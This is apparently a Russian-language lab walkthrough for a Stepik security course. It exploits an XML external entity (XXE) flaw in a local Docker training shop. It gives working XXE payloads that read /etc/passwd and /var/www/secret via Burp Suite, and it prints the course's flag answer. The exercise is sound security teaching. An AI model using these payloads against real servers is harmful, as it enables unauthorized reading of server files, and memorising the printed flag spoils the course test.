



# Уровень 2.1 Практика "Уязвимости внедрения внешних сущностей XML"
## Практика «Уязвимости внедрения внешних сущностей XML»

## 🎯 Задание
Используйте стенд `courses-shop.zip` из предыдущих уроков.

**Задача:** проанализировать защищенность механизма создания заказов в интернет-магазине. Обнаружить уязвимость внедрения внешних сущностей XML (XML eXternal Entities) и проэксплуатировать её.

**Цель:** в качестве подтверждения успешной эксплуатации извлечь секретный флаг (строку в формате 32 букв и цифр) из файла `/var/www/secret`.

---

## 🛠 Шаг 1. Инструменты
Всё необходимое для решения:
1. **Stepik** — для сдачи флага.
2. **courses-shop.zip** — архив с исходным кодом и окружением задачи.
3. **Docker** — для запуска стенда в изолированном контейнере.
4. **Браузер** — для взаимодействия с веб-интерфейсом.
5. **Burp Suite** — для перехвата и модификации HTTP-запросов.
6. **Шпаргалка по XXE** — [PayloadsAllTheThings (Classic XXE)](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XXE%20Injection/README.md#classic-xxe).

---

## 🚀 Шаг 2. Запуск стенда
Если стенд еще не запущен:
1. Перейдите в рабочую директорию `courses-shop-prod` через терминал.
2. Выполните команду для развертывания:
   ```bash
   docker-compose up -d
   ```
3. После успешного запуска приложение будет доступно по адресу: http://localhost:1337

---

## 🔍 Шаг 3. Разведка и поиск уязвимости
Когда приложение принимает данные в формате XML, мы можем попробовать объявить внешнюю сущность (External Entity), указывающую на локальный файл сервера, и заставить парсер отобразить её нам.

### Ход исследования:
1. Переходим на главную страницу магазина:


2. Запускаем **Burp Suite**, включаем перехват (`Intercept is ON`) во вкладке *Proxy*.
3. На главной странице сайта нажимаем кнопку **Buy this course** у курса за $5/mo.
4. Заполняем появившуюся форму любыми тестовыми данными и отправляем её.
5. В Burp Suite ловим отправленный запрос к скрипту `/order.php`. Обратите внимание, что данные отправляются в формате XML. Отправляем этот запрос в **Repeater** (`Ctrl + R`).

6. Опираясь на мануал по классическому XXE, структура базовой инъекции для чтения файлов выглядит так:
   ```xml
   <?xml version="1.0"?>
   <!DOCTYPE data [
   <!ELEMENT data (#ANY)>
   <!ENTITY file SYSTEM "file:///etc/passwd">
   ]>
   <data>&file;</data>
   ```


7. Теперь адаптируем эту полезную нагрузку под структуру нашего приложения и условия задачи. Нам нужно прочитать файл `/var/www/secret` и вывести его содержимое туда, где сервер нам его покажет — например, в поле комментария (`<comment>`).

Модифицируем XML-тело запроса в **Repeater**:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE order [
  <!ENTITY xxe SYSTEM "file:///var/www/secret">
]>
<order>
  <course_id>1</course_id>
  <name>BoCoder</name>
  <email>BoCoder@bocoder.ru</email>
  <phone>89991112233</phone>
  <comment>&xxe;</comment>
</order>
```


> **Разбор синтаксиса:**
> * `<!ENTITY xxe SYSTEM "file:///var/www/secret">` — объявляем внешнюю сущность с именем `xxe`, которая пытается прочитать файл по указанному пути.
> * `<comment>&xxe;</comment>` — вызываем нашу сущность внутри тега комментария. При обработке запроса сервер подставит содержимое секретного файла прямо в этот тег.

8. Нажимаем кнопку **Send**. В ответе сервера мы увидим, что заказ успешно создан, и нам вернется его ID (например, `orderID=7`).

---

## 🏆 Шаг 4. Захват флага
Поскольку уязвимый парсер обработал нашу сущность и сохранил результат в поле комментария к созданному заказу, нам осталось просто посмотреть этот заказ.

1. Переходим в браузере по адресу нашего нового заказа (подставляем полученный ID):
   `http://localhost:1337/receipt.php?orderID=7`

2. Смотрим на блок **Comments** (Комментарии). Вместо обычного текста там отображается содержимое файла `/var/www/secret`:


Целевой флаг успешно перехвачен!

**Ответ для Stepik:** `4a93a60b1c34fd11e4bac9920a14c00e`

---

### тгк: [BoCoder_Python](https://t.me/BoCoder_Python)